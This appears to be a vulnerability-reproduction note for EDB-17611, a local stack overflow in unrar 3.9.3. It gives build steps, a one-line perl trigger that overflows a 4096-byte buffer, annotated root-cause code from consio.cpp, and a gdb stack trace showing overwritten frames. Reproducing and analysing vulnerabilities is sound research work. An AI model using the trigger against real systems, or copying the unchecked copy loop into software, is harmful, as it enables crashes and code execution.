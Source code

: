 # EDB-17611

## Experiment Environment

Ubuntu 14.04 LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-17611/unrarsrc-3.9.3.tar.gz

tar -xvf unrarsrc-3.9.3.tar.gz
cd unrar
make -f makefile.unix

```

## Problems in Installation & Configuration

## How to trigger vulnerability

`unrar/unrar -$(perl -e 'print "A"x4084')`

stack buffer to be overflowed is 4096 bytes long, 4084 bytes of charater A and 24 bytes of added error message is just enough for triggering vulnerability. mainly to change File::hFile's value;

## PoCs

[Unrar 3.9.3 - Local Stack Overflow](https://www.exploit-db.com/exploits/17611/)

## Vulnerability Details & Patch

### Root Cause

consio.cpp:87
```
RawPrint() {
	File OutFile;
	char OutMsg[4096], *OutPos = OutMsg;
	for (int I = 0; Msg[I]!=0 ; I++) {
		if (Msg[I]!='\r')
			*(OutPos++)=Msg[I]; // only check if Mgs[I]==0 or Msg[I]=='\r', easy to overflow
	}

	OutFile.Write(Msg, strlen(Msg)); // OutFile's member - OutFile::hFile has already been changed due to overflow
}
```

### Stack Trace

```
(gdb) info stack
#0  0x66a77376 in ?? ()
#1  0xc9310807 in ?? ()
#2  0x6851e1f7 in ?? ()
#3  0x68732f2f in ?? ()
```

## References
